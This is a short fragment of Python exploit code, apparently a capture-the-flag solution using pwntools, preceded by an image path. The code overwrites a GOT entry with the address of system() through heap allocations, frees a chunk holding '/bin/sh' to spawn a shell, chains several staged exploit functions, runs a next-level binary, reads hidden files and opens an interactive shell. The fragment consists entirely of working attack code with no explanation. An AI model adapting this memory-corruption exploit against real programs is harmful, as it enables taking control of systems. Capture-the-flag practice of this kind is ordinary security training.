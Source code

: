 ```python

    create(str(free_got - 0x28 - 0x6021c0), 'cccc', False)

    payload  = 'a'*8
    payload += p64(system).replace(b'\x00',b'\t')[:-1]
    create(0x88, payload)

    create(0x18, '/bin/sh')
    destory('/bin/sh')

p.sendlineafter("(y/n) ", 'y')
pwn_hotel()
pwn_snow()
pwn_home()
pwn_world()

p.sendline('./next')
p.sendlineafter('world!\n', 'cat .../.*')

p.interactive()
```

